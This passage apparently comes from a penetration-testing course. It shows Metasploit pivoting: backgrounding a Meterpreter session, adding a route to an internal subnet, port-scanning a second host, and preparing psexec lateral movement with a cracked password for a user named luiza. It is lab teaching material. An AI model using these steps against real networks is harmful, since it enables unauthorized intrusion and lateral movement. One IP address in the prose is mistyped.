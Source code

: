 Now that we have a working session on the compromised system, we can background it. To add a route to a network reachable through a compromised host, we can use route add with the network information and session ID that the route applies to. After adding the route, we can display the current routes with route print.

```bash
meterpreter > bg
[*] Backgrounding session 12...

msf6 exploit(multi/handler) > route add 172.16.5.0/24 12
[*] Route added

msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12

[*] There are currently no IPv6 routes defined.
```

With a path created to the internal network, we can enumerate this subnet. Now we could scan the whole network for live hosts with a port scan auxiliary module. Since this scan would take quite some time to complete, let's shorten this step by only scanning the other live host in the second network. Therefore, instead of setting the value of RHOSTS to 172.16.5.0/24 as we would do if we wanted to scan the whole network, we set it to 172.16.5.200. For now, we only want to scan ports 445 and 3389.

```bash
msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389

msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.5.200:         - 172.16.5.200:445 - TCP OPEN
[+] 172.16.5.200:         - 172.16.5.200:3389 - TCP OPEN
[*] 172.16.5.200:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

172.161.5.200 has ports 445 and 3389 open. Let's use two modules for SMB and RDP using our pivot host ITWK01 to perform operations on the target.

First, we'll attempt to use the psexec1 module to get access on the second target as user luiza. In the previous section, we retrieved the NTLM hash via Kiwi. Let's assume we could successfully crack the NTLM hash and the clear-text password is BoccieDearAeroMeow1!. For psexec to succeed, luiza has to be a local administrator on the second machine. For this example, let's also assume that we confirmed this through information gathering techniques.
